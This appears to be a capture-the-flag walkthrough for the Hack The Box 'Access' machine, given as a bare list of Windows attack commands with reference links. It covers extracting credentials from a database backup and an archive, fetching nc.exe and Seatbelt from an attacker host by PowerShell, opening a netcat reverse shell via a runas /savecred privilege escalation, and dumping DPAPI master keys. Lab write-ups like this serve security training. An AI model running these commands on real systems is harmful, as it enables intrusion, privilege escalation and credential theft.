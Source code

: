 ```
mdb-tables -1  backup.mdb | grep user

mdb-export backup.mdb auth_user 

7z x -p'access4u@security' ac.zip 

cat  Access\ Control.mbox

telnet access.htb 
security
password

net users
net user administrator

cd Desktop

powershell -c "$client = New-Object Net.WebClient; $client.DownloadFile('http://10.10.14.19:8000/nc.exe', 'nc.exe')"

echo c:\Users\security\Desktop\nc.exe 10.10.14.19 6789 -e cmd.exe > reverse.ba

#Runas can be exploited if net user Administrator have "No Password Required Option" enabled

C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c C:\Users\security\Desktop\reverse.bat" 

powershell -c "$client = New-Object Net.WebClient; $client.DownloadFile('http://10.10.14.19:8000/SeatbeltNet3.5AnyCPU.exe', 'sb.exe')"

sb.exe MasterKeys
sb.exe user

```
https://github.com/carlospolop/winPE/blob/master/binaries/seatbelt/SeatbeltNet3.5AnyCPU.exe
https://blog.harmj0y.net/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/
https://www.hackthebox.com/achievement/machine/336799/156
